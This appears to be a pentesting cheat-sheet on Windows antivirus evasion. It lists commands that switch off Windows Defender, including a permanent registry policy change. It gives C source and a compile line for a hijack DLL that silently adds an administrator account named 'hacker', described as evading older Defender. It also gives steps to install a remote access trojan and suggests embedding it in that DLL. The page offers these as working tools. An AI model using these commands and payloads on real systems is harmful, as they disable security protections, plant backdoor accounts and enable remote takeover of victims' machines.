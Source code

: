 ## AV Evasion

1. Use batch files to call things like netcat
2. Encoding payloads
3. 

## Disable Windows Defender from CLI

```powershell
# One-Time
# Disable
Set-MpPreference -DisableRealtimeMonitoring $true
# Enable
Set-MpPreference -DisableRealtimeMonitoring $false

## Permanent Disable
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1

## Permanent Enable
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 0
REG DELETE "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware
```

### DLLs

DLL Hijacking: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking

The code below currently does not get detected by older Windows Defender, but you can swap the user creation commands with an obfuscated PS command and it works.

```c
#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
    system("cmd.exe /c net user hacker hacked /add");
    system("cmd.exe /c net localgroup administrators hacker /add");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call){
        case DLL_PROCESS_ATTACH:
            CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Saved as `adduser.c`

Compile: `x86_64-w64-mingw32-gcc adduser.c -shared -o adduser.dll`

### PowerShell Obfuscation

This script worked on 1/29/2023 Windows Defender Defs:  https://github.com/pr0xy-8L4d3/EvilRAT

```bash
git clone https://github.com/pr0xy-8L4d3/EvilRAT.git
cd EvilRat
chmod 744 install.sh EvilRat.sh
./install.sh
./EvilRat.sh
#Follow instructions...
```

You can insert this command into the DLL above instead of creating users.

## Other Links

- This one actually looks promising 
  - https://github.com/danielbohannon/Invoke-Obfuscation
  - https://www.mike-gualtieri.com/posts/modifying-empire-to-evade-windows-defender

https://medium.com/@sudoleox/how-i-am-winning-battle-with-windows-10-and-11-security-and-avoiding-detection-6ea9f954b2a7

https://github.com/Karmaz95/evasion

https://github.com/RoseSecurity/Anti-Virus-Evading-Payloads/blob/main/Bypass-AV-Payload-Detection.MD

https://www.cynet.com/attack-techniques-hands-on/powershell-obfuscation-demystified-series-chapter-1-intro/#:~:text=The%20most%20common%20PowerShell%20obfuscation,%E2%80%9C%2B%E2%80%9D%20operator%20for%20example.&text=Reordering%E2%80%93%20formatting%20operator%20

https://github.com/danielbohannon/Invoke-Obfuscation

